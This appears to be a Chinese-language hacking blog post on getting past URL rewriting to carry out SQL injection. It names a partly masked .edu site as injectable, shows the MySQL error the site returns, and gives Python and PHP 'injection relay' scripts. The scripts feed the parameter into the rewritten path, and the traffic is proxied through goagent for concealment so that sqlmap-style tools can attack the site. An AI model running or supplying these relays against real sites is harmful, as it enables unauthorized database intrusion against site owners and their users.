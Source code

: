 # python脚本处理伪静态注入

目前有很多网站做了rewrite.

```
/?id=1

/1

/1111.php

```

通常情况下，动态脚本的网站的url类似下面这样 http://www.xxoo.net/aa.php?id=123 做了伪静态之后类似这样 http://www.xxoo.net/aa.php/id/123.html 总归大趋势下，攻击的门槛逐渐增高。这样有利有弊，喜欢研究的会深入钻研，另一方面只会用工具不懂原理的则充斥到大小论坛水区。实战举例：

[http://www.bxxxxxxxxxxxx.edu/magazine/index.php/mxxxxia/gallery/dickinsons-last-dance/1](http://www.bxxxxxxxxxxxx.edu/magazine/index.php/mxxxxia/gallery/dickinsons-last-dance/1)

这个点存在注入

```
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1dddddd, 1' at line 4

```

标准的显错注入。 这里测试了几个工具havij[http://www.bxxxxxxxxxxxx.edu/magazine/index.php/mxxxxia/gallery/dickinsons-last-dance/1](http://www.bxxxxxxxxxxxx.edu/magazine/index.php/mxxxxia/gallery/dickinsons-last-dance/1)sqlmap safe3 穿山甲 此上都无法直接注入。 这里借助注入中转实现： 中转工具有一些   win7下会遭遇各种奇葩问题。并linux下不能使用。 用python  code了一篇，为什么用python 因为他开发快，不用各种环境。

```
from BaseHTTPServer import *  
import urllib2  
class MyHTTPHandler(BaseHTTPRequestHandler):  
def do_GET(self):  
path=self.path  
path=path[path.find('id=')+3:]  
proxy_support = urllib2.ProxyHandler({"http":"http://127.0.0.1:8087"})  
opener = urllib2.build\_opener(proxy\_support)  
urllib2.install_opener(opener)  
url="http://www.xxxxxxxxxxxxx.edu/magazine/imedia/gallery/dickinsons-last-dance/"  
try:  
response=urllib2.urlopen(url+path)  
html=response.read()  
except urllib2.URLError,e:  
html=e.read()  
self.wfile.write(html)  
server = HTTPServer(("", 8000), MyHTTPHandler)  
server.serve_forever()

```

不到20行代码（并加入了 goagent代理for hidden ）。 已经实现了要求。[http://127.0.0.1:8000/?id=1](http://127.0.0.1:8000/?id=1)从而达到目的。相比构造自己脚本去执行sql注入语句，要高效的多。

给习惯用php的朋友添加一个php脚本的中转注入： 可以自定义需要的头信息，在需要cookie或者refer等位置都可以方便的添加，添加好后直接访问zhongzhuan.php?id=1然后就可以放到工具中注入了，十分方便 :)


```
<?php
set_time_limit(0); 
$id=$_GET["id"]; 
$id=str_replace(" ","%20",$id); 
$id=str_replace("=","%3D",$id); 
$cookie="test";
$url = "http://www.qq.com/index.php/id/{$id}.html"; 
//$postdata = "";

$ch = curl_init(); 
curl_setopt($ch, CURLOPT_URL, "$url"); 
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false); 
curl_setopt($ch, CURLOPT_COOKIE, "$cookie");
// curl_setopt($ch, CURLOPT_POST, 1);//post提交方式
// curl_setopt($ch, CURLOPT_POSTFIELDS, $postdata);//post的数据
$output = curl_exec($ch); 
curl_close($ch); 
print_r($output);
?>

```